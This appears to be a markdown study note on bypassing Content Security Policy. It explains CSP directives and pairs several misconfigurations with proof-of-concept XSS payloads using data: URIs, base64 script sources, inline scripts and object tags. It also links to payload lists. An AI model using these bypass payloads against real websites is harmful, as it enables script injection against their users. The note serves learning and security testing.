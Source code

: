 # Content Security Policy (CSP) Bypass

**What is CSP?**
- Aim to mitigate XSS and Clickjacking.
- Restrict the content (scripts, images, iframes) that can be loaded into a page.

## CSP Implementation
 1. **Header**
```
Content-Security-Policy: script-src 'self' 'unsafe-inline';
```
2. **Meta Tag**
```html
<html>
  <head>
    <meta http-equiv "Content-Security-Policy" content="script-src 'self' 'unsafe-inline' ">
  </head>  
</html>
```

## CSP Directives
1. `script-src` : Which JS sources are allowed.
2. `default-src`: What is allowed by default if nothing is explicitly mentioned.
3. `frame-ancestors`: (Clickjacking) What can be embedded as iframe.
4. `img-src` : Which source can be loaded as an image.

## CSP Directive Values
1. `*` : Any URL except `data:`, `blob:` or `file:`.
2. `none` : No sources.
3. `self` : Sources from the same origin.
4. `data` : Resources with `data:` scheme.
5. **IMPORTANT** `unsafe-eval` : Allowed to create code from strings using `eval()`
6. **IMPORTANT** `unsafe-inline` : Allows using inline elements like `javascript:alert('xss')` or inline event handlers

## Attacking CSP Misconfigurations

## 1. Wildcard (*)
- If * is mentioned, data: cannot be mentioned.
- But if CSP is misconfigured to have both * and data it can be abused
```
# Misconfiguration
Content-Security-Policy: script-src 'self' https: data *; 
```
```html
# Attack
<script src="data:text/javascript,alert(document.domain)"></script>
```

## 2. Unsafe eval()
- Inherently unsafe
```
# Misconfiguration
Content-Security-Policy: script-src 'self' 'unsafe-eval';
```
```html
# Attack
# Base64 encode alert(document.domain) you will get YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==
# In the payload it will be decoded
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

## 3. Unsafe inline()
- Inherently unsafe
```
Content-Security-Policy: script-src 'self'  'unsafe-inline' ;
```
```html
<script>alert(document.domain);</script>
```

## 4. Bypass CSP using File Upload
- If you can upload a malicious JS file into the server
- You can invoke it as it will be in the same origin

## 5. Undefined object-src and default-src
- If object-src is not mentioned then we can create a malicious object
```
# Misconfiguration
Content-Security-Policy: script-src 'self' ;
```
```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```


Read/Watch the following:

1. [Cobalt Blog](https://www.cobalt.io/blog/csp-and-bypasses)
2. [Payatu Blog](https://payatu.com/blog/content-security-policyall-about-content-security-policy-and-its-bypasses/)
3. [Hack Tricks List of payloads](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)
4. [Crypto cat DVWA walkthrough](https://www.youtube.com/watch?v=ERksJHl0DC0)
